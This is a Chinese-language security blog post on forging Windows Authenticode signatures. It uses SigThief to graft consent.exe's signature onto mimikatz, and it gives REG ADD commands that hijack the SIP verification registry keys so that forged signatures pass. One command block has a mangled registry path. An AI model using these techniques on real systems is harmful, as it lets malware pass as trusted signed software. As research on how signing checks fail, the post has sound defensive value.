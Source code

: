 ```yaml
---
title: PE文件的签名伪造
layout: post
tags:
  - bin
  - reverse
  - pe
category: 
  - PE
  - hack
  - bin
comments: true
share: true
description: PE文件的Authenticode签名伪造
---
```


 PE文件的Authenticode签名伪造

* TOC
{:toc}

<!--more-->


## PE文件的签名伪造

查看`C:\Windows\System32\consent.exe`的文件属性，看到相关签名：

![](/img/hack/PE文件伪造/1508925341418.png)

使用PowerShell的`Get-AuthenticodeSignature `查看、并验证：

![](/img/hack/PE文件伪造/1508925559273.png)

使用CFF Explorer获取文件结构：

![](/img/hack/PE文件伪造/1508939728704.png)

> `Security Directory RVA`代码数字签名在PE文件中的偏移位置
> `Security Directory Size`代表数字签名长度

将该部分内容提取，复制到另一个文件test.exe的尾部，同时使用CFF Explorer修改test.exe对应的`Security Directory RVA`和`Security Directory Size`，这样就可以实现数字签名伪造。

[SigThief](https://github.com/secretsquirrel/SigThief)（https://github.com/secretsquirrel/SigThief）可自动实现数字签名伪造的过程：


```javascript
python sigthief.py -i ~/Desktop/consent.exe -t ~/Desktop/mimikatz_trunk/x64/mimikatz.exe -o test.exe
```

![](/img/hack/PE文件伪造/1508947004070.png)

查看伪造签名生成的test.exe数字签名，显示证书无效：

![](/img/hack/PE文件伪造/1508947094280.png)

使用`signtool.exe verify /v test.exe`

![](/img/hack/PE文件伪造/1508979948085.png)

Signtool显示`Win VerifyTrust returned error:0x80096010`

使用`sigcheck.exe -q test.exe`验证没通过：

![](/img/hack/PE文件伪造/1508982520529.png)

查看Get-AuthenticodeSignature的帮助说明：

```css
Get-Help Get-AuthenticodeSignature -Full
```

查看相关操作Set-AuthenticodeSignature的帮助说明：

```css
Get-Help Set-AuthenticodeSignature -Full
```

发现该命令的功能：

```css
The Set-AuthenticodeSignature cmdlet adds an Authenticode signature to 
any file that supports Subject Interface Package (SIP).
```

关于SIP的资料，可参考：

https://blogs.technet.microsoft.com/eduardonavarro/2008/07/11/sips-subject-interface-package-and-authenticode/

获得有用的信息：

There are some included as part of the OS (at least on Vista). Locate 
in the %WINDIR%System32 directory. They usually have a naming ending 
with sip.dll, i.e. msisip.dll is the Microsoft Installer (.msi) SIP.

查找Windows下的SIP：

```css
dir C:\Windows\System32\*sip.dll -Recurse -ErrorAction SilentlyContinue
```

![](/img/hack/PE文件伪造/1508982745295.png)

使用IDA Pro打开msisip.dll，查看函数`DllRegeusterServer`，可以看到一个名为`MsiSIPVerifyIndirectData`

![](/img/hack/PE文件伪造/1508982478140.png)

找到对应的函数`CryptSIPVerifyIndi​​rectData`,微软官方说明在https://msdn.microsoft.com/en-us/library/windows/desktop/cc542591%28v=vs.85%29.aspx

该函数的返回值为True表示验证成功，放那会FALSE 代表验证失败，对应的注册表键值位置为：`HKLM\SOFTWARE\Microsoft\Cryptography\OID\Encoding\Type 0\CryptSIPDllVerifyIndirectData`

![](/img/hack/PE文件伪造/1508983621830.png)

不同的GUID对应不同的文件格式验证：

- C689AAB8-8E78-11D0-8C47-00C04FC295EE | PE
- DE351A43-8E59-11D0-8C47-00C04FC295EE | Catalog.cat文件
- 9BA61D3F-E73A-11D0-8CD2-00C04FC295EE | CTL.ctl文件
- C689AABA-8E78-11D0-8C47-00C04FC295EE | Cabinet.cab文件

接下来，尝试替换`HKLM\SOFTWARE\Microsoft\Cryptography\OID\EncodingType 0\CryptSIPDllVerifyIndirectData\{C689AAB8-8E78-11D0-8C47-00C04FC295EE}`下的dll和FuncName

写的dll文件：

![](/img/hack/PE文件伪造/1509954540060.png)

更改注册表，写入dll路径和函数名，重启校验失败。后直接使用`C:\Windows\System32\ntdll.dll`作为路径，导出函数名为`DbgUiContinue`,重启之后，校验签名成功：


![](/img/hack/PE文件伪造/1509954340724.png)

对于64位系统，存在32位的注册表键值

如果使用32位的程序，如32位的signtool和sigcheck，为了绕过验证，还需要修改32位的注册表键值，对应代码如下：


```c
REG ADD "HKLM\SOFTWARE\Wow64\32\Node\Microsoft\Cryptography\OID\Encoding\Type 0\CryptSIPDllVerifyIndirectData\{C689AAB8-8E78-11D0-8C47-00C04FC295EE}" /v "Dll" /t REG_SZ /d "C:\Windows\System32\ntdll.dll" /fREG ADD "HKLM\SOFTWARE\Wow64\32\Node\Microsoft\Cryptography\OID\Encoding\Type 0\CryptSIPDllVerifyIndirectData\{C689AAB8-8E78-11D0-8C47-00C04FC295EE}" /v "FuncName" /t REG_SZ /d "DbgUiContinue" /f
```

参考三好师傅： http://www.4hou.com/system/7937.html


